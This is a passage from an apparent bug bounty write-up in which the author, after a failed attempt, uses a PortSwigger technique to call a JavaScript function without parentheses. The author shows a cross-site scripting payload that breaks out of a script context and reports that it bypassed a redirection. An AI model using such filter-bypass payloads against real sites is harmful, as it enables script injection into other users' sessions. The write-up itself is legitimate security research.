 
DAMN! It doesn't work. So... I had to follow another strategy.

After a while, I remembered a Linkedin post I had seen from the PortSwigger researching team that talked about different ways to call a JavaScript function without parentheses

[The seventh way to call a JavaScript function without parentheses (PortSwigger)](https://portswigger.net/research/the-seventh-way-to-call-a-javascript-function-without-parentheses)

After taking a look at all the proposed payloads, I thought that the seventh method discovered might fit my needs. Therefore I sent the following payload

{% include codeHeader.html %}
```html
"});[].map.call`${alert}1`;</script>
```

and I received the following response

![](/assets/images/2023-03-06-bug-bounty-3/repeater-exploitation-5.png)

The payload is completely reflected! Redirection bypassed!

After that, clicking in the option *Show response in browser* I got the following response
